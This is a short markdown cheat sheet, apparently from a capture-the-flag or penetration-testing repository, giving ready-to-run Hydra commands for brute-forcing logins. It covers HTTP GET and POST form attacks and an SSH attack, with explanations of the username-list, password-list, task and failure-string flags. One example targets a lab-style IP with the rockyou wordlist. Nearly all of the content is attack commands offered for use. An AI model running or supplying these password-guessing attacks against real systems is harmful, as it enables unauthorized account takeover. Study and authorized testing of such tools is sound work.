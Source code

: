 ## Get Request Command
    hydra -L users.txt -p whatever -t 10 -o result-attack.txt
     url http-get-form "/ajax.php:fun=login&username=^USER^&password=^PASS^:invalid user"

**-L** : file for USER value

**-p** : test password

**-P**: file for PASS value

**-o** : output file

**-t** : number of tasks

*invalid user* : response result

    hydra -L myusers.txt -P password.txt -t 10 -o result-attack.txt
    url http-get-form "/ajax.php:fun=login&username=^USER^&password=^PASS^:invalid password"

&nbsp;

## Post Request Command

    hydra 3.challenge.auth.site http-post-form "/login.php:username=^USER^&password=^PASS^:invalid user"
    
<br/>

    hydra url http-post-form "/login.php:username=^USER^&password=^PASS^&Login=submit:invalid user"

**Login** : name attribute of the input or button

**submit**: value of button or type of input

    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"

**-l** : test username

<br/>

## SSH

    hydra url  -t 4 ssh -L users.txt -P pass.txt